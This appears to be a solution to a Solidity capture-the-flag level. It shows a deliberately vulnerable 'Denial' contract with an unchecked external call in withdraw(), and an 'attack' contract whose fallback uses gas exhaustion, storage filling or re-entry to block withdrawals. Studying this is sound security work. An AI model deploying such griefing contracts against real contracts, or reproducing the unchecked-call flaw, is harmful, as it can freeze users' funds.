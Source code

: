     function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}

contract attack {
    
    Denial denial;
    bytes32[] public  bs ;
    
    constructor(address denialAddr) public {
        denial = Denial(denialAddr);
    }
    
    function () payable public {
        //方法1
        assert(false);
        
        //方法2
        // for(uint i=0;i<2**255;i++){
        //     bs.push(bytes32(1));
        // }

        //方法3
        // denial.withdraw();
    }
}
```
